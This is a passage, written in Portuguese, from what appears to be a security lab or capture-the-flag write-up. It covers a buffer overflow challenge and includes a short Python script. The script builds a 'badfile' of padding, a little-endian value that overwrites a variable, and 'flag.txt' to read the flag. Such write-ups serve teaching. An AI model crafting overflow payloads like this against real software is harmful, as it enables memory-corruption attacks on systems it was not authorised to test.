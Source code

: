 ```c
    return 0;
}
```

Desta vez, no entanto, teremos de reescrever uma outra variável com o valor indicado para poder ter acesso à *flag*. De qualquer modo, a resolução terá o mesmo raciocínio de antes:

```py
with open('badfile', 'wb') as fl:
    fl.write(0xFFFFFFFF.to_bytes(4, byteorder='little')*8)
    fl.write(0xfefc2324.to_bytes(4, byteorder='little'))
    fl.write(bytes('flag.txt', 'latin-1'))
```

E executando o comando uma vez mais, conseguimos obter acesso à *flag*.

![](img/lab05/desafio_2.png)



